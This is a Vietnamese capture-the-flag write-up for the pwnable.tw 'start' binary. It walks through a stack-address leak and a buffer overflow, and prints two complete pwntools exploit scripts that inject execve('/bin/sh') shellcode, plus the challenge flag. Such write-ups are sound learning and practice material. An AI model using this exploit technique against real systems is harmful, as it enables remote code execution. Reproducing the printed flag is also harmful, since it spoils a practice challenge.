








# [Start](./chall/start)

<center>



Đề bài cho ta file elf start 32 bit , Arch : 386


</center>



Chạy thử file thì chương trình yêu cầu ta nhập vào rồi sau đó exit



Nhìn vào ida thì ta thấy chương trình gọi 2 hàm system linux write xong read



Nhìn vào bảng trên => chương trình cho ta nhập max là 0x3C kí tự => ở đây ta có thể khai thác lỗi buffer overflow



Checksec thì thấy NX tắt => có thể thực thi mã trên stack => Mình nghĩ tới việc chạy shellcode trên stack. Tuy nhiên vấn đề là chúng ta chưa biết địa chỉ shellcode trên stack để có thể return vào shellcode.

### Stage 1 : Leak địa chỉ shellcode

- Như bên trên ta đã thấy PIE tắt => địa chỉ các hàm tĩnh. Lại có hàm write của system sẽ in ra giá trị tại địa chỉ của ecx. Nên ta sẽ cho chương trình return vào đúng lệnh `mov ecx,esp` để có thể leak được địa chỉ trên stack



Sau khi ta nhập vào thì địa chỉ esp được tăng thêm 0x14 byte lệnh return sẽ lấy từ byte thứ 0x14 trở đi

```python
#!/usr/bin/python3
from pwn import *

#p = remote("chall.pwnable.tw", 10000)
#p = gdb.debug("./start", "b* _start+0x39 \n c")
p = remote("chall.pwnable.tw",10000)

exe = ELF('./start')
context.binary = exe

shellcode = asm(
    '''
    push   6845231       
    push   1852400175         
    mov    ebx, esp           /* ebx -> "/bin/sh" */
    xor     ecx,ecx
    xor     edx,edx
    mov    al, 0x0b          
    int    0x80
''',arch = 'i386'
)


payload = shellcode
payload += p32(0x08048087) #return
p.sendafter("Let's start the CTF:", payload)
leak_stack = u32(p.recv(4))
log.info(f'stack leak: {hex(leak_stack)}')
p.interactive()
```
Sau khi chạy ta đã thành công leak được địa chỉ trên stack:



Tính toán giữa địa chỉ shellcode đầu tiên ta nhập vào với địa chỉ stack được leak ra thì chênh nhau 0x1c. Cuối cùng ở lần nhập t2 ta thay thành địa chỉ shellcode và thành công tạo được shell:

```python
#!/usr/bin/python3
from pwn import *


#p = gdb.debug("./start", "b* _start+0x39 \n c")
p = remote("chall.pwnable.tw",10000)

exe = ELF('./start')
context.binary = exe

shellcode = asm(
    '''
    push   6845231       
    push   1852400175         
    mov    ebx, esp           /* ebx -> "/bin/sh" */
    xor     ecx,ecx
    xor     edx,edx
    mov    al, 0x0b          
    int    0x80
''',arch = 'i386'
)


payload = shellcode
payload += p32(0x08048087) #return
p.sendafter("Let's start the CTF:", payload)
leak_stack = u32(p.recv(4))
log.info(f'stack leak: {hex(leak_stack)}')
shellcode_addr = leak_stack - 0x1c
payload = shellcode
payload += p32(shellcode_addr) #return
p.send(payload)
p.interactive()

```



**FLAG**: `FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}`